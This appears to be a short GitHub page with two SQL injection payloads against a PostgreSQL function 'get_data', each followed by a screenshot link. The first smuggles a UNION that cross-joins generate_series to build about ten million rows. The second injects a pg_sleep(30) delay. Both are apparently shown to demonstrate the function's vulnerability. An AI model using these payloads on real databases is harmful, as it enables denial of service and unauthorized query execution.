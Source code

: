 ```sql
select * from get_data('1'' union
(select a1, cast (a1 as varchar), a1
from
(select generate_series a1 from generate_series (1,1000)) t1
cross join
(select * from generate_series (1,1000)) t2
cross join
(select * from generate_series (1,10)) t3) -- ');
```

![1](https://user-images.githubusercontent.com/56599282/209482942-5444fc35-c918-462b-bb18-dd0bddfadadc.png)

```sql
select * from get_data('1'' or exists (select 1 from pg_sleep(30)) -- ');
```

![2](https://user-images.githubusercontent.com/56599282/209482944-a6b85396-a7b8-4874-a18c-4527a48f9b8f.png)
